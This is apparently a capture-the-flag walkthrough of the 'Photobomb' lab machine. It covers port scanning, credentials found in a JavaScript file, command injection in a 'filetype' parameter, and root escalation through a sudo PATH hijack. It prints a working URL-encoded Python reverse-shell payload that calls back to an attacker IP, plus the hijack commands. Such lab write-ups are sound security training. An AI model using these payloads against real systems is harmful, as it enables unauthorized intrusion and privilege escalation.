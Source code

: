 # Photobomb, Difficulty: Easy
## Author : Arkoov

# Walkthrough (User):
1. This machine only gives us the ip of the machine, so we can start by listing the open ports using nmap
> command

```sh
nmap -sT -p- -A 10.10.11.182
```

> result
![image](https://user-images.githubusercontent.com/86551419/211705866-384eafa4-50c5-44fa-9221-9cb08acd85d7.png)

2. There are two open ports which is ssh port and nginx port. after trying to access port 80 we got error not found in the web and a domain. 
after registering the domain name into /etc/hosts we finally can access the web server.

> result

![image](https://user-images.githubusercontent.com/86551419/211706132-216cd082-de03-40f3-9046-b0f5eed6f1a5.png)

3. Its a web page with a clickable link `To get started, please click here! (the credentials are in your welcome pack).` 
and after clicking it the server prompts us to insert username and password. after searching around the web, at the page source
we have a javascript file that we can access named `photobomb.js`. inside it we found the credential to login

> result
![image](https://user-images.githubusercontent.com/86551419/211708119-b526c092-5ba0-457c-986b-0e141e6a6d1f.png)

![image](https://user-images.githubusercontent.com/86551419/211708163-5a90b2a1-1fda-4a15-bf54-61ba4d83cf2c.png)

> creds
```sh
Username: pH0t0
Password: b0Mb!
```
4. After trying to login using the credential above we are redirected to a page where we can download the image with specified parameter
such as photo, filetype and dimensions

> result

![image](https://user-images.githubusercontent.com/86551419/211708561-3178b3fb-3da6-4e1b-874d-7b4005824429.png)

![image](https://user-images.githubusercontent.com/86551419/211708507-6c795130-2d6d-46f6-9233-5ae2bf87e2bc.png)

5. After trying to tamper the parameter, we found that parameter filetype is vulnerable to command injection while photo and dimensions aren't(tried
the vulnerability using wget and hosting a python http server)

> fail
![image](https://user-images.githubusercontent.com/86551419/211709157-da17506b-e189-498e-a820-81ec6bfdf381.png)

![image](https://user-images.githubusercontent.com/86551419/211709349-25bbd579-eabe-44e8-a861-706911a31f58.png)

> success

![image](https://user-images.githubusercontent.com/86551419/211709559-70855988-95f5-41b2-a1db-8bb039bc8233.png)

![image](https://user-images.githubusercontent.com/86551419/211709594-ba70d00b-7951-4daf-9716-73277fab3ea4.png)

6. Then we can try to use reverse shell payloads inside the parameter. Out of the payloads tried, `python reverse shell` payload returns the shell
back to the listener. Payload reference: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

> payload
```sh
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png%3bexport+RHOST%3d"10.10.16.8"%3bexport+RPORT%3d4444%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'&dimensions=1000x1500
```
> result

![image](https://user-images.githubusercontent.com/86551419/211713489-2d1808db-771f-4890-92cb-67e92507d262.png)

![image](https://user-images.githubusercontent.com/86551419/211713490-b5d5fc3d-9bb4-48e0-9b4b-4d6f5d68142a.png)

![image](https://user-images.githubusercontent.com/86551419/211713488-7129956d-e586-4654-87f0-2aeca6a07de6.png)

7. And with the shell we can open user.txt inside /home/wizard directory

# Walkthrough (Root):

1. We got the developer user and now we can try to find more clue to get root access. Using command `sudo -l` we see that there's a file `/opt/cleanup.sh` that can be executed by user wizard with root privilege. 

> result

![image](https://user-images.githubusercontent.com/86551419/211978899-687ed383-348d-4802-bcf6-e9e782a61d01.png)

2. After reading the content of the file, we can manipulate the variable path to execute the bash file. we can use the cd command and create a file using `echo "/bin/bash" > cd`. after that we can start to run `cleanup.sh` file using the variable path of our `cd` file.

> command
```sh
echo "/bin/bash" > cd
chmod +x cd
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```
> result

![image](https://user-images.githubusercontent.com/86551419/211979893-f5640080-314a-4db2-82d1-2ab97da40f21.png)

3. with the root found, we have successfully pwned the Photobomb machine.










